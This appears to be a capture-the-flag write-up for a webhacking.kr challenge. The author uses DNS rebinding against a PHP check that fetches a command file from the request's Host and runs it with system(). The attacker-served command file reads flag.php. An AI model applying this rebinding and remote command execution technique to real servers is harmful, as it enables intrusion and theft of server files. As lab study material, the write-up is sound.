




Here we can see this line:
```php
if(($_SERVER['HTTP_HOST'] !== "webhacking.kr") && (gethostbyname($_SERVER['HTTP_HOST']) !== "202.182.106.159")) 
    exit("Something wrong");
```

It checks whether the `host` is `"webhacking.kr` **or** `ip` is `202.182.106.159`.
So, we can trick him by supplying dynamic dns hostname, that first point to `202.182.106.159`, and then changes to our ip, and let us send our command here:
```php
curl_setopt($ch, CURLOPT_URL, "http://{$_SERVER['HTTP_HOST']}:10020/cmd/".rawurlencode($cmd).".txt");

...

curl_setopt($ch, CURLOPT_URL, "http://{$_SERVER['HTTP_HOST']}:10020/cmd/".rawurlencode($cmd).".txt");
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_CONNECTTIMEOUT, 4);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
$response = curl_exec($ch);

...

system($response); 
```

So, first we create free account here [noip](https://www.noip.com/), it let us set free ddns hostname.

Then, I created this script that changes the `ip` from `webhacking.kr` ip to my ip. 

You need to modify the script of course, if you want it to work.
```python

```

Then, I created port forwarding on my router, because I'm behind a NAT


I also set `inbound rule`, telling the windows firewall to enable connections on port `10020`.


Last thing is setting the webserver on my local machine, which serves the file `./cmd/command.txt`.
This file contains:
```txt
echo "script is running!!";
cat flag.php;    
```

And here you can see the server:


And that's it, from now I only send the message via Burp, and hope I'll manage to execute `toctou`


**Flag:** ***`FLAG{sorry-i-forgor-what-server-name-meaning}`*** 
